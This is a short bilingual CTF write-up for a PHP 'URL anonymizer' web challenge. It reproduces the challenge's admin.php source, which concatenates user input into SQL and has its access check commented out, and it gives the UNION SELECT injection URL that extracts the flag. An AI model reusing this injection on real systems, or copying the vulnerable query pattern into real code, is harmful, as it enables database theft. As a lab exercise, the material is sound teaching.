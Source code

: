 # URL anonymizer (web, 200p)

###ENG
[PL](#pl-version)

In description of the task we got URI pointing to source of admin.php and information that the application provides URL shortening functionality.
Source of file : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

In general, we can see two different views , one where we can submit URL to be shortened

![](./screen1.png)

and the other place where we can submit wrongly working URL

![](./report.png)

However, the most interesting part is the admin.php and we can see that inside 'report' section we have unsanitized SQL Injection, therefore we try to reach this URL with already prepared query (UNION SELECT) and get in response:

![](./flag.png)

URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221

flag : DCTF{30bce3bb3c2b030c1480179046409729}

###PL version

W opisie zadania otrzymaliśmy  URI wskazujący na źródło pliku admin.php i informacje że aplikacja dostarcza możliwość skracania adresów URL.
Źródło pliku : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

Po przejściu na  adres aplikacji, możemy zauważyc dwa widoki, jeden w którym możemy wysyłać URL do skrócenia 
![](./screen1.png)

i drugi widok, w którym możemy wysyłać źle działający URL
![](./report.png)

Jednal najciekawszym  elementem jest zasób admin.php w którym możemy zauważyć że w ramach case'a "report" mamy SQL Injection, więc staramy się wysłać zapytanie z przygotowanym zapytaniem (UNION SELECT) i otrzymujemy w odpowiedzi :

![](./flag.png)

URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221

flag : DCTF{30bce3bb3c2b030c1480179046409729}
